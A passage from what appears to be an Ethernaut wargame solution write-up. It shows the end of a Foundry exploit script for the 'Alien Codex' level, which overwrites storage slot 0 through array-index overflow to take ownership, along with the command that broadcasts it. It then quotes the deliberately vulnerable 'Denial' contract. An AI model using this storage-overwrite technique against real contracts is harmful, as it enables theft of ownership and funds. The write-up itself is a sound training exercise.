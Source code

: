 ```javascript
        // codex[2**256 - keccack256(1)]  ==> codex[keccack256(1) + 2**256 - keccack256(1)] 
        //                                ==> codex[2**256] ==> slot 2**256 ==> slot 0 (overflow)

        uint ownerSlot = (((2**256) - 1) - uint(keccak256(abi.encode(1))) + 1); 
        // uint index = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;
        bytes32 _content = bytes32(uint256(uint160(vm.envUint("MY_ADDRESS"))));
        alienCodex.revise(ownerSlot, _content);

        bytes32 slot0After = vm.load(address(alienCodex), bytes32(uint(0)));
        console.logBytes32(slot0After);  // contacted + owner

        vm.stopBroadcast();
    }
}
interface IAlienCodex {

  function makeContact() external;
  function record(bytes32 _content) external;
  function retract() external;
  function revise(uint i, bytes32 _content) external;

}
```

To run script : 

```bash
$ source .env
$ forge script script/AleinCodexSolve.s.sol:AleinCodexSolve --rpc-url $RPC_URL --broadcast
```

# 20 Denial

`Denial.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

```